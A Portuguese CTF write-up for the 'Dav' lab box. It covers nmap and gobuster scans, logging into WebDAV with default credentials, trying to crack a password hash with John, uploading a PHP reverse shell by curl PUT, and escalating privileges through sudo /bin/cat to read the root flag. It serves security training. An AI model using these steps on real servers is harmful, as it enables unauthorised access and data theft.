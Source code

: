 # _**Dav CTF**_
![](dav_ctf.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Segundo, vamos realizar um scan <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Recebemos um código 401, [acesso não autorizado](https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Reference/Status/401)  
Pede uma senha e usuário  
Podemos tentar explorar  

Primeiro, tentamos um login anonimo com a ferramenta <mark>Cadaver</mark>  

![](cadaver.jpg)

Mas não funcionou

Tentamos com o comando ```curl```, mas também não adiantou  

![](curl_command.jpg)

Novamente, tentamos algo com o Nmap através do comando abaixo
> ```bash
> nmap -p 80 --script http-methods,http-webdav-scan [ip_address]
> ```
![](script_nmap.jpg)

Isso nos diz que /webdav não aceita métodos POST

Vamos procurar as credenciais padrão para Webdav  
Temos:
* **username**: wampp
* **password**: xampp

![](webdav_login.jpg)

Chegamos em uma página onde contém o seguinte  

![](index_webdav.jpg)

![](file_webdav.jpg)

Usando ```hash-identifier```, temos:

![](hash_id.jpg)

Vamos usar <mark>John</mark> para quebrá-la
> ```bash
> echo 'wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91' > hash_passwd.txt
> ```
> ```bash
> 'john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt hash_passwd.txt
> ```
![](john.jpg)

Sem resutlados!  
Este não parece ser o caminho  
Vamos tentar de outra maneira  

Verificando novamente (agora que temos acesso) se aceita PUT (típico de webdav)  

![](webdav_put.jpg)

## _**Ganhando acesso**_
Vamos pegar um [script em PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) para um _reverse shell_  
Agora, vamos realizar upload via PUT
> ```bash
> curl -u wampp:[password] -T reverse_shell.php http://10.10.252.178/webdav/reverse_shell.php
> ```
![](reverse_shell.jpg)

![](shell_obt.jpg)

## _**Escalando privilégios**_
Primeiro, vamos verificar ```id``` e diretório atual com ```pwd```  

![](verify.jpg)  

Temos nossa primeira flag!  

![](flag1.jpg)

Para podermos escalar privilégios, precisamos saber o que podemos fazer  
Primeiro, vamos usar ```sudo -l```  

![](sudo.jpg)

Com isso, você pode ler qualquer arquivo no sistema como _root_, basta usar <mark>/bin/cat</mark>  
Vamos tetnar com <mark>/root/root.txt</mark>, provável local da flag 2  
![](flag2.jpg)

Conseguimos!!!
